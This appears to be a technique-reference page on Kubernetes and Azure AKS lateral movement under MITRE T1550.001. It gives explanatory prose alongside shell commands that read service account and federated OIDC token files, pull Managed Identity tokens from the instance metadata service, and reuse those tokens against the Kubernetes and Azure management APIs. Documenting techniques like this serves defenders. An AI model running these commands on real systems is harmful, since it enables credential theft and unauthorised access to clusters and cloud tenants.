 # Lateral Movement

## **Lateral Movement Techniques in Containerized Environments**

In Kubernetes and container-native infrastructures, adversaries use Lateral Movement techniques to pivot across pods, namespaces, nodes, and cloud services.\
Rather than exploiting new vulnerabilities, attackers abuse stolen tokens or identity artifacts to move stealthily between resources and escalate access within clusters or cloud environments.

Tokens like Kubernetes Service Account credentials, Azure Managed Identity tokens, or federated OIDC tokens become weapons of lateral movement when improperly secured.

***

### **Use Alternate Authentication Material T1550**&#x20;

**Description**

Use Alternate Authentication Material refers to adversaries using authentication artifacts other than usernames and passwords to access resources without going through traditional login processes.

Instead of guessing or stealing passwords, attackers leverage existing tokens, session cookies, API keys, OAuth tokens, or Kerberos tickets to impersonate users, services, or systems.

In containerized and cloud-native environments, this means:

* Stealing Kubernetes Service Account tokens
* Harvesting Azure Managed Identity, GCP, or AWS tokens from metadata services
* Replaying web session cookies for Kubernetes dashboards, ArgoCD, Jenkins, etc.
* Abusing OAuth access tokens or SAML assertions

Because these authentication materials often bypass MFA and don't trigger login events, adversaries gain stealthy access to sensitive resources.

#### Application Access Token **T1550.001**&#x20;

#### **Description**

Steal and reuse application tokens — including Kubernetes service account tokens, Azure Managed Identity tokens, or Azure Workload Identity tokens — to pivot into new Kubernetes resources, namespaces, or connected cloud APIs.

#### **Container Example**

* **Steal Kubernetes Service Account Token**:

```bash
cat /var/run/secrets/kubernetes.io/serviceaccount/token
```

* **Use the stolen token to pivot within Kubernetes**:

```bash
curl -k -H "Authorization: Bearer $TOKEN" https://<aks-api-server>/api/v1/secrets
```

**Result**:\
Access Kubernetes secrets, ConfigMaps, pods, or even take over namespaces without triggering MFA or standard login audits.

#### **Azure-Specific Example: Lateral Movement in AKS**

* **Harvest an Azure Managed Identity token via Instance Metadata Service (IMDS)**:

```bash
curl -H Metadata:true "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com"
```

* **Use the Azure access token to list Azure resource groups**:

```bash
curl -X GET https://management.azure.com/subscriptions/<subscription-id>/resourcegroups?api-version=2021-04-01 \
  -H "Authorization: Bearer $ACCESS_TOKEN"
```

**Result**:\
Move from Kubernetes into broader Azure control planes like storage accounts, Key Vaults, resource groups, or VMs.

#### **Azure Workload Identity Example**

* **Steal a federated OIDC token inside AKS**:

```bash
cat /var/run/secrets/azure/tokens/azure-identity-token
```

* **Exchange the federated token for Azure access**:

```bash
az login --service-principal --username <client-id> --federated-token <stolen-token> --tenant <tenant-id>
```

**Result**:\
Authenticate into Azure using the stolen identity, escalate permissions, and persist across cloud services.

***

### **Summary Table**

| Technique/Subtechnique   | MITRE ID  | Container Example                                                          |
| ------------------------ | --------- | -------------------------------------------------------------------------- |
| Application Access Token | T1550.001 | Steal Kubernetes tokens or Azure Managed Identity tokens to move laterally |

***

### **Final Summary**

Lateral Movement using Alternate Authentication Material lets attackers expand their foothold invisibly.\
By stealing tokens instead of hacking passwords, adversaries leap across namespaces, clusters, and cloud tenants without triggering alarms.

